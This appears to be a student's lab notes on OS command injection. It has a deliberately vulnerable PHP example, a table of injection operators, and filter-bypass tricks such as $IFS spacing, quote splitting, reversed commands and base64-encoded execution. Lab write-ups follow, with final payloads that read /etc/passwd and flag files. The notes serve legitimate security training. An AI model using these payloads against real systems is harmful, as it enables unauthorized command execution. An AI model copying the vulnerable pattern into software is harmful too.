

# OS Command Injection

### **What is OS Command Injection?**

Run system commands on the server.

- Server-side bug.

### **Types:**

- **Blind** → No output shown.
- **Output-Based** → Output is visible.

### **Example:**

```php
<?php
if (isset($_GET['filename'])) {
    system("touch /tmp/" . $_GET['filename'] . ".pdf");
}
# touch /tmp/test.pdf; whoami
?>

```

---

### **Command Injection Methods**

To inject an additional command to the intended one, we may use any of the following operators:

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command** |
| --- | --- | --- | --- |
| Semicolon | `;` | `%3b` | Both |
| New Line | `\n` | `%0a` | Both |
| Background | `&` | `%26` | Both (second output generally shown first) |
| Pipe | `|` | `%7c` | Both (only second output is shown) |
| AND | `&&` | `%26%26` | Both (only if first succeeds) |
| OR | `||` | `%7c%7c` | Second (only if first fails) |
| Sub-Shell | ```` | `%60%60` | Both (Linux-only) |
| Sub-Shell | `$()` | `%24%28%29` | Both (Linux-only) |

These work for command injections, no matter the language or framework.

**Bypassing Front-end Validation**

Custom HTTP requests can bypass front-end validations (using Burp Suite).



### Bypassing Filters

- **New Line (`\n`%0a)**: Works as injection operator.
- **Spaces**: Can bypass using:
    - **Tabs (`%09`)**: Works like a space.
    - **`$IFS`**: Replaces space with `${IFS}`.
    - `${LS_COLORS:10:1}` → ;
    - **Brace Expansion**: Adds spaces automatically (`{ls,-la}`).
- **Bypass Blacklisted Characters**:
    - **Linux**: Use variables like `${PATH}` to get `/` or `;`.
    - **Windows**: Use `%HOMEPATH%` to get `\`.
    - PowerShell → Indexing.
    - **Case Manipulation** ( `whoami` → `WhOamI` ):
        - Linux systems are case-sensitive.
            - `whOamI`  ≠ `whoami`
            - But we have a command to make the word lowercase. (`tr`)
            
            ```bash
            qht@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
            # whOamI to whoami
            ```
            
        - Windows, commands for PowerShell and CMD are case-insensitive.
            - `whOamI`  == `whoami`

### Bypassing Blacklist Commands

- **Case Manipulation →** `WhoAmi`
- **Linux Only:** `\` or `$@` → `who$@ami`
- **Linux & Windows:** `'` or `"` → `w'h'o'am'i`
- **Windows Only:** `^` → `who^ami`

### Advanced Command Obfuscation

- **Reversed Commands** ( `imaohw` instead of `whoami` ):
    - Use `echo 'whoami' | rev` to reverse `whoami` to `imaohw`.
    - To run the command, use `$(rev <<< 'imaohw')`.
    
    
    
    - Windows:
        - Use `"whoami"[-1..-20] -join ''` to reverse `whoami` to `imaohw`.
        - To run the command, use `iex "$('imaohw'[-1..-20] -join '')"`.
- **Encoded Commands**
    - base64
        - Use `echo -n 'cat /etc/passwd | grep 33' | base64` to encode the payload.
        - To run the command, use `bash<<<**$**(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`.
        - Windows:
            - `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`

---

### Lab1

- **`%0a`** → Newline (Enter)
- **`${IFS}`** → Space bypass
- **`${PATH:0:1}`** → `/` bypass

🔹 **Final Payload:** `ls -la /home` → `127.0.0.1%0a{ls,-la}${IFS}${PATH:0:1}home`

### Lab2

- **`%0a`** → Newline (Enter)
- `c’a’t` → Blacklisted Commands bypass
- **`${IFS}`** → Space bypass
- **`${PATH:0:1}`** → `/` bypass
- `{PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt` → /home/1nj3c70r/flag.txt

🔹 **Final Payload:** `127.0.0.1%0ac'a't$IFS${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt`

### Lab3

- **`%0a`** → Newline (Enter)
- **`${IFS}`** → Space bypass
- `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` → `WhOaMi` to `whoami`

🔹 **Final Payload:** `127.0.0.1%0a$(tr${IFS}"[A-Z]"${IFS}"[a-z]"<<<"WhOaMi")`

### Lab4

- **Task**:
    - Using one of the techniques you learned To run the command:
        - `find /usr/share/ | grep root | grep mysql | tail -n 1`
- Encode the command: `ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=`
- **`%0a`** → Newline (Enter)
- **`${IFS}`** → Space bypass
- `bash<<<**$**(base64 -d<<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)` → Decrypt bas64 and run the command

🔹 **Final Payload:** `127.0.0.1%0abash<<<$(base64${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)`

### **Skills Assessment ( Lab5 )**

- Task: Get the content of '`/flag.txt`’
- guest@guest
- `%26` → URL-Encoded of ‘&’
- `c’a’t` → Blacklisted Commands bypass
- **`${IFS}`** → Space bypass
- `${PATH:0:1}flag.txt` → /flag.txt

🔹 **Final Payload:**

`/index.php?to=&from=51459716.txt%26c'a't${IFS}${PATH:0:1}flag.txt&finish=1&move=1`
